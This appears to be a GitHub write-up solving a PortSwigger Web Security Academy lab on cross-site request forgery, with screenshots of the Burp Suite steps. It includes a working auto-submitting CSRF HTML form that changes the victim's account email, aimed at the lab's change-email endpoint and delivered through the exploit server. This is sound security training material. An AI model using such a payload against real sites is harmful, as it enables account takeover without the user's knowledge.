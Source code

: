 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cf0298e2-f801-4dff-ad82-1ba2a4e6362b)

## Solution :

Open Burp's browser and log in to your account using `wener:peter`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/229bd2c6-3300-41f5-93fd-6fbc35cb0844)

Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d97428f5-cb93-4973-afca-3ab57db09ce9)

Send it repeter

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/47762557-b59f-45d2-ac28-6c94c3b660e8)

If you're using Burp Suite Professional, right-click on the request and select `Engagement tools` / `Generate CSRF PoC`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/29946009-800f-4c8f-a34f-1b76714950ce)

Enable the option to include an auto-submit script and click "Regenerate".and then i changed the email from `cyber` to `ananthan`. 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8a87f879-219c-4e16-8006-331c2308d3cf)

geneted the payload.

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0adb002a04fee11e80857b2a008500da.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="ananthan&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```
Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/794f0017-f67d-4b48-9f69-8e88754ddd9b)

To verify that the exploit works, try it on yourself by clicking `"View exploit"` and then check the resulting HTTP request and response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/90ee76e1-0626-4cc8-b262-6b5913e85db3)

we can that email has changed .Now Click `"Deliver to victim"` and solve the lab.

